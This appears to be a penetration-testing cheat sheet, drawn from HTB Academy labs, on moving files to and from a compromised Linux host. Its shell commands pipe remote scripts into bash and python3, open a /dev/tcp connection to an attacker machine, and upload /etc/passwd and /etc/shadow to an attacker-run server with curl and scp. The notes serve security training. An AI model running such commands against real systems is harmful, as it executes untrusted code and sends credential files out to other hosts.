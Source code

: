 # Linux

## Download

### Copy & Paste

This works by encoding the file as base64 and copying it to the destination and decode the string back to file. This might come in handy.

**Linux - encode to base64**

```shell-session
kali@kali:~ $ cat <file> |base64 -w 0;echo
```

**Linux - decode 64**

```shell-session
kali@kali:~$ echo <base64 contents> | base64 -d > hosts
```

**Linux - check hash**

```shell-session
kali@kali:~$ md5sum <file>
```

### Web Download (Wget\&cURL)

**Linux - wget**

```shell-session
kali@kali:~$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

**Linux - curl**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
</strong></code></pre>

### Fileless attack (in Linux)

Pipe the command without outputting to excecuter

**Linux - fileless attack with curl**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
</strong></code></pre>

**Linux - fileless attack with curl**

```shell-session
kali@kali:~$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Bash (/dev/tcp)

> Only works if the Bash version is >= 2.04, This version of /dev/tcp can be use to perform simple file transfer.

Following are the series of commands that performs a file download (assuming the attackers' machine is running a webserver.

```shell-session
kali@kali:~$ exec 3<>/dev/tcp/10.10.10.32/80 # Connects to attack machine
kali@kali:~$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3 # Performs GET request
kali@kali:~$ cat <&3 # Print the response
```

### **SSH (File transfer)**

First check for the SSH listening port

```shell-session
kali@kali:~$ netstat -lnpt
```

**Linux - Downloading Files Using SCP**

```shell-session
kali@kali:~$ scp <user>@192.168.49.128:/root/myroot.txt . 
```

> Create a temporary user to avoid using primary credentials or keys on a remote computer

## Upload

### Web Upload (uploadserver.py)

On the **attacker**'s machine, create a  certificate (below is self-signed cer) then create upload server using Python3's `uploadserver` module.

**Linux - Create a Self-Signed Certificate**

```shell-session
kali@kali:~$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

```shell-session
kali@kali:~$ mkdir https && cd https
kali@kali:~$ python3 -m uploadserver 443 --server-certificate /root/server.pem
```

**Linux - Upload Multiple Files**

```shell-session
kali@kali:~$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Web Upload (Python server)

**Linux - Create Python3 HTTP server**

```shell-session
kali@kali:~$ python3 -m http.server <port> # port is optional
```

**Linux - Create Python2.7 HTTP server**

```shell-session
kali@kali:~$ python2.7 -m SimpleHTTPServer <port> # port is optional
```

### Web Upload (Other HTTP servers)

**Linux - Create PHP HTTP server**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ php -S 0.0.0.0:8000
</strong></code></pre>

**Linux - Create Ruby HTTP server**

```shell-session
kali@kali:~$ ruby -run -ehttpd . -p8000
```

### Downloading files from above **HTTP** servers

```shell-session
kali@kali:~$ wget 192.168.49.128:8000/filetotransfer.txt
```

### SCP Upload

```shell-session
kali@kali:~$ scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/

plaintext@192.168.49.128's password: 
```

## Resources

Most of the commands and contents are from **HTB academy lab!**
